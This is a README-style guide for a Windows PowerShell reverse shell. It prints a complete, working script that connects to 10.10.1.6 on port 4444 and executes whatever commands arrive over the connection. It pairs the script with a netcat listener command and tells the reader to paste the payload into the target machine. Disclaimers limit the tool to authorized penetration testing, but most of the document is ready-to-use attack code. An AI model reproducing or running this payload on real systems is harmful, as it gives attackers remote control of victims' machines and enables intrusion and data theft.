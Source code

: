 ### **Direct Reverse Shell Setup**

## **Overview**
This document provides instructions for setting up and using a **Windows Reverse Shell** to connect from a target Windows machine back to an attacker's machine. The reverse shell allows an attacker to remotely execute commands on the target system by initiating a connection from the target to the attacker’s listener.

### **Important Disclaimer**
This tool is intended for ethical penetration testing, security research, or authorized security assessments only. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.
---
## **Requirements**
### **Attacker Machine**
1. **Netcat** or any other listener for receiving connections from the target system.
   - Use `nc` (Netcat) to listen for incoming connections:
     ```shell
     nc -lvnp 4444
     ```

2. **PowerShell** (on the target machine):
   - The script uses PowerShell to execute commands on the target system.

### **Target Machine (Windows)**
- Windows PowerShell, which is available on most modern versions of Windows.
  
## **Payload Script Explanation**

### **PowerShell Reverse Shell Script:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.1.6', 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | % { 0 };
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
};
$client.Close();
```

### **Explanation:**
1. **TCP Connection**: The reverse shell creates a TCP connection to the attacker's machine using the specified IP (`10.10.1.6`) and port (`4444`).
2. **Data Stream**: Once connected, it listens for commands and executes them using `iex` (Invoke-Expression).
3. **Command Output**: The result of each command is sent back to the attacker, and this process continues until the connection is closed.

---

## **Setup Instructions**

### **Step 1: Set Up Listener on Attacker Machine**
On your Kali (attacker) machine, open a terminal and start a listener to receive the incoming reverse shell connection:
```bash
nc -lvnp 4444
```
This will start Netcat on port `4444`, listening for incoming connections from the target machine.

### **Step 2: Deliver the Payload to Target Machine**
 **Manual Execution**: 
   You can manually execute the script on the target machine by copying and pasting it into a PowerShell window.
   
---

## **Legal Disclaimer**

This tool is intended for use only in authorized penetration tests, security assessments, or other lawful security-related activities. Unauthorized access to computers and networks is illegal and unethical. Always obtain explicit written permission before using this tool on any system that you do not own or have authorization to test.

